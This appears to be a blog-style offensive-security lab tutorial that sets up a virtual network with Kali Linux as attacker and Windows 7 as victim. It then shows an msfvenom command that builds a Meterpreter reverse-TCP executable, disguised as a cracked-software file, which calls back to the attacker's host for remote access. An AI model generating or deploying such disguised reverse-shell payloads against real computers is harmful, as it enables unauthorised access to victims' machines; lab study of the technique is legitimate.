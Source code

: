 ```yaml
---
title: Accessing the victim’s computer using the Msvenom
author: nishalrai
date: 2022-08-17 20:55:00 +0800
categories: [Offensive]
tags: [offensive, msvenom]
---
```


Before we begin the practical assessment of the attack by using Msvenom which is a Metasploit framework, we need to understand the actual work going behind the attack. We are trying to access the victim’s computer which is currently running Windows 7 as Operating System.This practical assessment will be conducted by creating a virtual environment within the computer and then configuring each and every necessary device within the virtual environment. To perform this remote access control hacking using Msvenom, we need to install GNS3, VMWare or VirtualBox which will host any Linux distros (Kali Linux, Parrot OS & other) – I will be using Kali Linux 2020 and then a victim’s computer where Windows 7 is used for this assessment.When you have installed GNS3 on your computer then you need to make a simple topology as shown in the figure to carry out the operation.


Here, we place a router as a Core Router which is linked up with ISP and then a Core Switch connected with two end-users: Kali Linux as an attacker and Windows 7 as a victim within the same network. However, in real-life scenario, attacker may not be present in the same network of victim but can even build remote access to the victim’s computer using the port forwarding technique.The attack will be carried out once all the devices within the virtual environment are carried out. Initially, router is configured with the following values as displayed below:


Here, interface f0/0 is assigned 10.10.10.1/24 network address which has as a 10.10.10.1 ip address and 255.255.255.0 as a subnet mask. Interface f0/1 is assigned 192.168.108.128.Similarly, the end devices Windows 7 (victim) is assigned 10.10.10.15/24 and Kali Linux (attacker) is assigned as 10.10.254/24. Here, both the end devices will have 10.10.10.1 as a default gateway in order to communicate with the core router as shown in the above illustrated figure.Once all the configuration of the devices is configured then try to ping the end devices with another device such as:Windows 7 ping successful with the Core Router and Kali Linux OS:



Kali Linux successfully pings Windows 7 and Core Router:



Then a script is developed using Msvenom which is a Metasploit Framework:




```
Msf5> msfvenom -p windows / meterpreter / reverse tcp LHOST=10.10.10.254 LPORT=5555 -f exe -o /home/kali/Desktop/IDMCrack.exe
```

A executable file is developed and will be saved in the desktop of Kali Linux. Then the file should be run into the victim computer and a session will be established between the victim’s pc (Windows 7) and Kali Linux (attacker) which enables the attacker to perform various possible attacks over victim’s pc.